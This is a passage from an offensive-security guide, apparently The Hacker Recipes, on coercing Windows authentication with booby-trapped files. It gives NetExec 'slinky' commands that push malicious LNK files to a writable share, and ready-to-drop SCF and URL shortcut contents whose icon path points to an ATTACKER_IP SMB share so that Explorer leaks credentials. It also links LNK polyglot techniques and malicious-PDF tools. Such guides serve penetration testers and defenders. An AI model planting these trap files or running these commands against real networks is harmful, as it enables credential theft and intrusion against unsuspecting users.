 > [!TIP]
> Advanced traps
> 
> * LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
> * LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
nxc smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
nxc smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```


=== .scf

An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.


```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```



=== .url

A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.


```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```


:::


### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

### RTF documents
